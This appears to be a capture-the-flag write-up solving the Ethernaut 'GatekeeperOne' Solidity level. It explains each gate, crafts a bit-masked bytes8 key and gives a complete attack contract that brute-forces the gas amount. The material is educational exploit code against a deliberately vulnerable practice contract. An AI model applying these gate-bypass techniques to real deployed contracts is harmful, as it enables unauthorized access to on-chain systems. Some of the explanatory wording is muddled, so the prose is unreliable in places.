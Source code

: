# Challenge 13

<img src="./images/BigLevel13.svg" alt="13" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge
---
> Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
  - Remember what you've learned from the Telephone and Token levels.

1. `gasleft() returns (uint256)`: remaining gas 

Further Reading : [link](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)


Solution 
---
1. We have pass first three modifier let's see `gateOne` modifier

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

it says `msg.sender != tx.origin` we already encountered this type of thing in Telephone.

We will make sure whoever the calling the contract must be `tx.origin` (EOA) and for that we will make new contract.

2. `gateTwo` modifier

```solidity
  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

we see here is if our remaining gas is modulo by 8191 then we will pass this test. we will get to that here in sec.

3. `GateThree` modifier

```solidity
  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

we need to bit masking  here is great links check this out first.   
1. [link 1](https://medium.com/@mweiss.eth/solidity-and-evm-bit-shifting-and-masking-in-assembly-yul-942f4b4ebb6a)
2. [link 2](https://en.wikipedia.org/wiki/Mask_(computing))

First see `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)` 
and if we take look at the function `entrant = tx.origin` which means our `attack contract address` which will be use as `tx.origin` and let's take random address and understant. `0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8` 

##  `bytesN` / `uintM` table equivalence for Solidity

| uintM  | bytesN |
|:------:|:-------:|
| `uint8` | `bytes1` |
| `uint16` | `bytes2` |
| `uint24` | `bytes3` |
| `uint32` | `bytes4` |
| `uint40` | `bytes5` |
| `uint48` | `bytes6` |
| `uint56` | `bytes7` |
| `uint64` | `bytes8` |
| `uint72` | `bytes9` |
| `uint80` | `bytes10` |
| `uint88` | `bytes11` |
| `uint96` | `bytes12` |
| `uint104` | `bytes13` |
| `uint112` | `bytes14` |
| `uint120` | `bytes15` |
| `uint128` | `bytes16` |
| `uint136` | `bytes17` |
| `uint144` | `bytes18` |
| `uint152` | `bytes19` |
| `uint160` | `bytes20` |
| `uint168` | `bytes21` |
| `uint176` | `bytes22` |
| `uint184` | `bytes23` |
| `uint192` | `bytes24` |
| `uint200` | `bytes25` |
| `uint208` | `bytes26` | 
| `uint216` | `bytes27` |
| `uint224` | `bytes28` |
| `uint232` | `bytes29` |
| `uint240` | `bytes30` |
| `uint248` | `bytes31` |
| `uint256` | `bytes32` |

- creadit - Jean Cvllr 

### Part 1

The _gateKey converted to a uint32 must be equal to its value converted to a uint16.

```
uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
0xXXXXXXXXXXXXXXXX       == 0xXXXXXXXXXXXXXXXX
          |______|                        |__|
```          
Since the uint16 represents the last 2 bytes, our key must look like this:

`0xXXXXXXXX0000XXXX`

### Part 2

The _gateKey converted to a uint32 must be different than its cast to a uint64.

```
uint32(uint64(_gateKey)) != uint64(_gateKey)
0xXXXXXXXX0000XXXX       != 0xXXXXXXXX0000XXXX
          |______|            |______________|
```

To do that, we need the 4 bytes on the left-hand side to not be made of 0.
So, we could do something like:

`0x100000000000XXXX`

### Part 3

Finally, we need the _gateKey converted to a uint32 to be equal to the tx.origin converted to a uint16:

```
uint32(uint64(_gateKey)) == uint16(tx.origin)
0x0000000000000000       == 0x0000000000000000
          |______|                        |__|
```
This results in the following key:
```
0x100000000000AAAA
              |__| –— Replace those 2 bytes with the last 2 bytes
                      Of your address.
```
now let's look at the second one how to pass the gas that will pass out challenge.

Let's Gate tot the Final Second One `gasleft()` let's brute force.

```solidity
        uint256 gas = 90000;

        for (uint i; i < 8191; i++) {
          gas += 1;
          try gatekeeperOne.enter{gas: gas}(_gateKey) {
            break;
          } catch {}
        }
```

for loop will continue till pass the Challenge.


Here's The Full Code

```solidity
contract GateKeeperOneAttack {

  GatekeeperOne gatekeeperOneAddress;

  // instance address 
  constructor(address _addr) public {
    gatekeeperOneAddress = GatekeeperOne(_addr);
  }

  function solve(bytes8 _gateKey) external {
        uint256 gas = 90000;
        for (uint i; i < 8191; i++) {
          gas += 1;
          try gatekeeperOneAddress.enter{gas: gas}(_gateKey) {
            break;
          }
          catch { }
    }   
  }
}
```

get the instance address and deploy and call the solve function now see the entrant will set your EOA address, now submit the instance your challenge will be cleared.
